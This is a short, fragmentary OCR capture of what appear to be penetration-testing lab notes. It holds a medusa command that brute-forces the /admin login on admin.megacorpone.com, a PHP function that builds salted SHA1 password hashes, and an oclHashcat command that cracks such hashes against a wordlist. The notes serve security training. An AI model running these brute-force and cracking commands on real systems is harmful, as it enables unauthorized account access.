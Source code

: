 16204

medusa -h admin.megacorpone.com -u admin -P mega-mangled -M http -n 81 -m
DIR:/admin -T 30

![](media/9391433223564ec9726a424a5d08907d.png)

functions.admin.inc.php

function generate_pw_hash(\$pw)

{

\$salt = random_string(10,'0123456789abcdef');

\$salted_hash = sha1(\$pw.\$salt);

\$hash_with_salt = \$salted_hash.\$salt;

return \$hash_with_salt;

}

./oclHashcat64.bin -m 110 hash.txt ../big-wordlist.txt --force

![](media/fd70263cc2636433c6d2d750ab53f4fa.png)
